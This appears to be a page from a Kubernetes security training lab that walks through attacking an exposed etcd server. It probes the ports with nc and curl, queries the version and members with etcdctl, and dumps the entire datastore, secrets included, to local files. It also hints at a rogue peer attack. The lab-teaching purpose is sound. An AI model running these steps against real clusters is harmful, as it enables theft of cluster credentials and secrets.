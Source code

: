 # Access the Etcd Services Directly

## Services Available

- `22/tcp` - [SSH](https://openssh.org)
- `2379/tcp` - [Etcd server service](https://github.com/coreos/etcd#etcd-tcp-ports)
- `2380/tcp` - [Etcd peer discovery service](https://github.com/coreos/etcd#etcd-tcp-ports)

This initial `etcd` configuration is unlikely to be found in the wild, but it's important to understand the mechanics and the risks of letting the data in `etcd` fall into the hands of a malicious entity.

Set the `etcd` IP to a variable:
```
$ export ETCDIP=$(aws ec2 describe-instances \
  --region ${AWS_DEFAULT_REGION} \
  --filter 'Name=tag:Name,Values=etcd' \
  --query 'Reservations[].Instances[].NetworkInterfaces[0].Association.PublicIp' \
  --output text)
```

### Probe the `ssh` port:

Verify the port is responding:
```
$ nc -v $ETCDIP 22
Connection to 18.233.67.127 port 22 [tcp/ssh] succeeded!
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
```
While not completely insecure with decent `sshd` configuration, exposure of SSH credentials/keys from other systems that are shared with this system means an attacker can attempt to use them directly.  Also, SSH bots are hyper-focused on the known cloud-provider IP ranges, so it's not a place to be complacent.

### Probe the `etcd` server port:

Verify the port is responding:
```
$ nc -z $ETCDIP 2379
Connection to 18.233.67.127 port 2379 [tcp/*] succeeded!
```
From this, we know that an external IP can access the `etcd` server directly.  This shouldn't ever be the case!

Verify that the port is a web port:
```
$ curl $ETCDIP:2379
404 page not found
```
This tells us that `etcd` is not listening with TLS and it's reachable. This is catastrophically bad for the integrity of this cluster.  The next steps are to validate the version and get all the data.

Obtain the `etcd` version:
```
$ curl $ETCDIP:2379/version
{"etcdserver":"3.2.11","etcdcluster":"3.2.0"}
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" version
etcdctl version: 3.3.2
API version: 3.3
```

Use `etcdctl` to get the `etcd` cluster health:
```
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" endpoint health
http://18.233.67.127:2379 is healthy: successfully committed proposal: took = 6.903553ms
```

Get the `etcd` cluster members:
```
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" member list
e0187950b759a617, started, ip-10-1-0-5, http://10.1.0.5:2380, http://10.1.0.5:2379
```

Because the `etcdctl` commands were successful, it means we most likely have full access to the data in this `etcd` cluster.  It's a very similar parallel to having direct `root` access to a database that backends a webserver.

Dump the entire contents of `etcd`'s datastore:
```
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" get "" --from-key > etcd.raw
or
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" snapshot save etcd.dump
Snapshot saved at etcd.dump
```

Dig into the `etcd.dump` using `vi` or [boltbrowser](https://github.com/br0xen/boltbrowser):
```
$ vi etcd.raw
or
$ vi etcd.dump
or
$ ./boltbrowser etcd.dump
```
We now have a complete, bit-for-bit copy of the entire state of the cluster.  This includes pods, configmaps, secrets, and more.  In essence, this cluster is completely "pwned".

### Probe the `etcd` peer discovery port:

Verify the port is responding:
```
$ nc -z $ETCDIP 2380
Connection to 18.233.67.127 port 2380 [tcp/*] succeeded!
```

Verify that the port is a web port:
```
$ curl $ETCDIP:2380
404 page not found
```

Obtain the `etcd` version:
```
$ curl $ETCDIP:2380/version
{"etcdserver":"3.2.11","etcdcluster":"3.2.0"}
$ ETCDCTL_API=3 ./etcdctl --endpoints "http://$ETCDIP:2379" version
etcdctl version: 3.3.2
API version: 3.3
```
The `etcd` discovery service should not be exposed to any systems but the `etcd` servers.  Because we have direct access to `tcp/2379` and `tcp/2380`, it's likely that a "rogue" etcd attack could be carried out.

[Back](/README.md#level-0-attacks) | [Next](direct-controller.md)
